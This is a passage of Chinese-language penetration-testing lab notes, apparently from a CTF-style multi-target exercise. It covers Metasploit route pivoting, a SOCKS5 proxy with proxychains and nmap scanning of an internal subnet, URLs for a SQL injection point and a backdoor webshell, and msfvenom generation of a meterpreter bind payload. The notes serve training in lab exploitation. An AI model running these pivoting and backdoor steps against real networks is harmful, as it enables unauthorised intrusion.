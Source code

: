      - 查看路由地址：

       ``` shell
       run autoroute -p
       ```

     - 添加路由地址：

       ``` shell
       run autoroute -s 192.168.22.0/24
       ```

     - 开启本地代理：（创建SOCK5协议代理）

       ``` shell
       use auxiliary/server/socks5
       
       set srvport 2222
       
       exploit
       ```

   - 利用本地代理接口访问测试

     - 设置浏览器代理进行访问测试

       - linux：配置proxychains后调用工具探针Target2 

         ``` shell
         /etc/proxychains.conf
         
         socks5 	192.168.46.131 2222
         
         proxychains nmap -sT -Pn 192.168.22.0/24 -p80
         
         -Pn：扫描主机检测其是否受到数据包过滤软件或防火墙的保护。
         
         -sT：扫描TCP数据包已建立的连接connect
         ```

       - windows：利用代理工具Proxifier或SocksCap64载入代理进行进程访问测试

3. Target2：探针目标-利用WEB漏洞(SQL注入)-后台获取webshell权限-获取Flag-Target3

   ```shell
   http://192.168.22.128/index.php?r=vul&keyword=1 #sql注入
   
   http://192.168.22.128/index.php?r=admini/public/login #后台
   
   http://192.168.22.128/index.php?r=special  #后门shell
   ```

   - 生成正向后门：

     ``` shell
     msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=3333 -f elf > t2.elf
     ```

   - 访问接受：

     ``` shell
     use exploit/multi/handler
     